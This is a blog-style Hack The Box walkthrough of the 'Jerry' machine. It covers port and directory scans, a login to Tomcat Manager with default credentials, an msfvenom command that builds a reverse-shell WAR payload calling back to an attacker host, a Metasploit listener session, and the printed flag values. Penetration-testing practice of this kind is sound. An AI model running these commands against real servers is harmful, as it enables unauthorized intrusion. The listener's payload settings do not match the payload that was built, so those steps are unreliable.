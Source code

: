 ```yaml
---
title: Jerry, Hack the Box CTF Walkthrough
lead: Exploiting the Tomcat Manager Application
tag: CTF
image: /assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/jerry.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: "Jerry is an easy level HTB challenge from the HTB archives"
card: card-2
---
```


Jerry is an easy level HTB challenge from the HTB archives. The challenge involves basic CVE discovery through enumeration scans, and requires manual exploitation of the tomcat apache webserver. Overall this was a straightforward CTF challenge.  

## Enumeration  

First, I conducted a quick nmap scan of the top 200 ports to get a quick idea on the targets running services.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nmap --top-ports 200 -Pn 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:43 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 199 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

The results showed an open webserver on port 8080. I started a more in-depth scan using the nmapAutomator script.  Output from the scan revealed the server was running the apache tomcat webserver, a technology used to run java servlets and other java web technologies.  The recon stage of the script used Gobuster to brute force  directories, which revealed the apache tomcat `/manager` path.  

```bash
---------------------Running Recon Commands----------------------
                                                                                                                                                           

Starting gobuster scan
                                                                                                                                                           
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/04 15:51:47 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
http://10.10.10.95:8080/prn (Status: 200) [Size: 0]
```  

## Password Cracking  

Upon visiting the manager URL, I was met with a basic HTTP authentication login form. From the eJPT course and certification exam, I already knew the default password for apache tomcat  was username:tomcat password:s3cret. Indeed, when I tried that combination it worked, showing the server was left secured with default credentials. This could also have been deduced using nikto, which also revealed the weak authentication.  

```bash
Starting nikto scan
                                                                                                                                                           
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-03-04 15:52:18 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-03-04 15:56:50 (GMT-5) (272 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan
                                                                                                                                                           
=========================
```  



After authenticating to the server, I found the manager application allowed the admin to upload a WAR file which would be executed by the server.   


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/upload.png">
    </div>
</div>
<br/>  

## Payload Creation  

Using `msfvenom`, I created a reverse tcp shell payload to upload to the target server. Once executed, the payload would connect back to my attacker machine on port 4443.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=4443 -f war -o pwn.war
Payload size: 13401 bytes
Final size of war file: 13401 bytes
Saved as: pwn.war
```  

Using the manager application, the payload was uploaded. 


## Catching a Reverse Shell  

Before triggering the payload, I used the multi/handler on `metasploit` to start a listener on my attacker machine to receive the reverse shell. Once the listener was started, I browsed to the location of the payload on the server, triggering the payload, and sending a reverse shell to my machine. 


```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4443 
[*] Sending stage (3008420 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.13:4443 -> 127.0.0.1) at 2021-03-04 18:58:40 -0500
```    

## Finding the Flags  

To find the flags, I dropped into the shell and manually searched the target to find the flag files.   

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,940,480 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```



